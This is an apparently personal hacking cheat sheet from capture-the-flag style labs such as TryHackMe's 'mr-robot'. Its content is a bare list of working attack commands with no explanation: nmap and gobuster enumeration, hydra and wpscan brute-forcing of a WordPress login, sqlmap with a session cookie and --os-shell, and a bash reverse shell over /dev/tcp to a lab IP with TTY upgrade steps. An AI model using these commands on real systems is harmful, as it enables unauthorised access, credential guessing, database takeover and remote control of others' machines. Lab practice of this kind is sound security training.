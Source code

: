 # We are going to do basic of Hacking

ip = 10.10.176.152

## Directory Hosting

python -m http.server 8888 --bind 0.0.0.0

## Enumeration

1. nmap -sC -sV -T100 10.10.176.152
2. nmap -sT <'ip address>
3. nmap -sP <'ip address>

1. gobuster dir -u 10.10.176.152 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

## BruteForcing

1. hydra -L fsocity.txt -p mypassword 10.10.186.250 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username"

2. hydra -l elliot -P fsocity.txt 10.10.186.250 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username"

3. wpscan --url <http://10.10.89.214> -t 50 -U elliot -P /home/kali/Documents/tryhackme/mr-robot/fsociety.txt

## Sqlmap

1. sqlmap -u '<http://10.129.233.138/dashboard.php?search=any+query>' --cookie="PHPSESSID=9qik8dt7ol8fpsbi63t0beft1l"
2. sqlmap -u '<http://10.129.233.138/dashboard.php?search=any+query>' --cookie="PHPSESSID=9qik8dt7ol8fpsbi63t0beft1l" --os-shell

## reverse shell

1. bash -c "bash -i >& /dev/tcp/10.10.14.161/443 0>&1"

pty enable
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl Z
stty raw -echo
fg
export TERM=xterm
